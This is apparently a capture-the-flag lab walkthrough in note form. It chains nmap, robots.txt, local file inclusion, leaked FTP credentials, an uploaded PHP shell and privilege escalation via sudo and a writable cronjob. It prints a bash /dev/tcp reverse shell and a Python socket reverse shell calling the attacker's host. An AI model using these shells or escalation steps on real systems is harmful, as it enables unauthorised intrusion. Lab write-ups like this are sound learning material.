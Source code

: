 start with nmap

http 80

21
80
22


http

/robots.txt --> /flag1.txt --> flag1: FLAG{robots_dot_text_what_is_next}

```
User-agent: *
Allow: /flag_1.txt
Allow: /secret_file_do_not_read.txt


```
/index.php


lfi found `http://10.10.150.61/post.php?post=secret_file_do_not_read.txt`

```
Hi Mat, The credentials for the FTP server are below. I've set the files to be saved to /home/ftpuser/ftp/files. Will ---------- ftpuser:givemefiles777 

```

ftpuser: givemefiles777

login into ftp

we can upload file in `files` folder.
upload php shell.

our files is saved in `/home/ftpuser/ftp/files/`. using lfi get reverse shell.

www-data --> toby 

www-data can run all cmds as toby (sudo)

toby --> mat 
cronjob is set up. we can modifies exec file.

bash -i >& /dev/tcp/10.11.57.82/1337 0>&1

mat --> will

`(will) NOPASSWD: /usr/bin/python3 /home/mat/scripts/will_script.py *`

import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.11.57.82",8009));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"])  